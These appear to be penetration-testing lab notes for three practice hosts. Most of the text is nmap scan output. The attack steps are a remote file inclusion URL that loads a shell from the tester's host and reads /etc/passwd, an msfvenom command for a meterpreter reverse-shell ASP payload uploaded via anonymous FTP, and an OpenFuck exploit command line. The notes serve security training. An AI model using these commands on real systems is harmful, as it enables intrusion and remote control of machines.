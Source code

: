 ### 10.11.1.8

#### information

Not shown: 990 filtered ports
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         vsftpd 2.0.1
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: ERROR
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.11.0.104
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 2.0.1 - secure, fast, stable
|_End of status
22/tcp   open   ssh         OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey:
|   1024 89:94:af:2e:5d:c1:da:84:25:11:2c:12:45:c6:70:ac (RSA1)
|   1024 c1:c5:d1:83:0f:4d:d8:9e:8f:82:4c:be:53:4b:6e:14 (DSA)
|_  1024 bc:e1:e6:dd:ab:5e:fd:d1:21:2e:11:7c:d5:b2:03:52 (RSA)
|_sshv1: Server supports SSHv1
25/tcp   closed smtp
80/tcp   open   http        Apache httpd 2.0.52 ((CentOS))
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 2 disallowed entries
|_/internal/  /tmp/
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open   rpcbind     2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            844/udp  status
|_  100024  1            847/tcp  status
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
443/tcp  open   ssl/https?
|_ssl-date: 2019-03-01T08:39:29+00:00; -11s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
445/tcp  open   netbios-ssn Samba smbd 3.0.33-0.17.el4 (workgroup: MYGROUP)
631/tcp  open   ipp         CUPS 1.1
| http-methods:
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
3306/tcp open   mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
MAC Address: 00:50:56:89:24:79 (VMware)
Service Info: OS: Unix

Host script results:
|_clock-skew: mean: 1h39m49s, deviation: 2h53m12s, median: -11s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.33-0.17.el4)
|   Computer name: phoenix
|   NetBIOS computer name:
|   Domain name:
|   FQDN: phoenix
|_  System time: 2019-03-01T03:39:28-05:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

###  exploit

https://www.exploit-db.com/exploits/9623

#### poc

http://10.11.1.8/internal/advanced_comment_system/index.php?ACS_path=http://10.11.0.104/shell.txt%00&cmd=cat /etc/passwd

```shell
<pre>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nolo
```







### 10.11.1.13

####  information

#### exploit

ftp allow anonymous user to upload file in wwwroot path

ftp> dir
200 PORT command successful.
150 Opening ASCII mode data connection for /bin/ls.
01-17-07  06:42PM       <DIR>          AdminScripts
01-17-07  06:43PM       <DIR>          ftproot
01-17-07  06:43PM       <DIR>          iissamples
01-17-07  06:43PM       <DIR>          Scripts
03-13-19  11:46AM       <DIR>          wwwroot

#### poc

msfveon -p windows/meterpreter/reverse_tcp  lhost=ip lport=port  -f asp -o sh.asp

### 10.11.1.22

Nmap scan report for 10.11.1.22
Host is up (0.29s latency).
Not shown: 989 closed ports
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp?
22/tcp    open  ssh         OpenSSH 3.1p1 (protocol 1.99)
| ssh-hostkey:
|   1024 4a:e3:f8:07:d5:d6:b1:b5:bf:54:ac:e7:17:36:7e:e8 (RSA1)
|   1024 77:67:f2:2c:3d:7c:45:24:fe:5e:0f:de:07:65:b3:57 (DSA)
|_  1024 42:b1:48:0b:41:f8:a9:12:cc:9b:c4:ed:26:74:64:2c (RSA)
|_sshv1: Server supports SSHv1
23/tcp    open  telnet?
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http        Apache httpd 1.3.23 ((Unix)  (Red-Hat/Linux) mod_python/2.7.6 Python/1.5.2 mod_ssl/2.8.7 OpenSSL/0.9.6b DAV/1.0.3 PHP/4.1.2 mod_perl/1.26 mod_throttle/3.1.2)
| http-methods:
|_  Potentially risky methods: PUT DELETE CONNECT PATCH PROPFIND PROPPATCH MKCOL COPY MOVE LOCK UNLOCK TRACE
|_http-server-header: Apache/1.3.23 (Unix)  (Red-Hat/Linux) mod_python/2.7.6 Python/1.5.2 mod_ssl/2.8.7 OpenSSL/0.9.6b DAV/1.0.3 PHP/4.1.2 mod_perl/1.26 mod_throttle/3.1.2
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1          32768/tcp  status
|_  100024  1          32768/udp  status
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
199/tcp   open  smux        Linux SNMP multiplexer
443/tcp   open  ssl/https   Apache/1.3.23 (Unix)  (Red-Hat/Linux) mod_python/2.7.6 Python/1.5.2 mod_ssl/2.8.
|_http-server-header: Apache/1.3.23 (Unix)  (Red-Hat/Linux) mod_python/2.7.6 Python/1.5.2 mod_ssl/2.8.7 OpenSSL/0.9.6b DAV/1.0.3 PHP/4.1.2 mod_perl/1.26 mod_throttle/3.1.2
|_http-title: 400 Bad Request
|_ssl-date: 2019-03-13T13:30:48+00:00; -2s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
995/tcp   open  ssl/pop3s?
|_ssl-date: 2019-03-13T13:30:47+00:00; -3s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
32768/tcp open  status      1 (RPC #100024)
MAC Address: 00:50:56:89:2E:AA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

#### exploit

https://medium.com/@javarmutt/how-to-compile-openfuckv2-c-69e457b4a1d1

poc

https://www.exploit-db.com/raw/764

./openfuck 0x73 10.11.1.22 -c 40

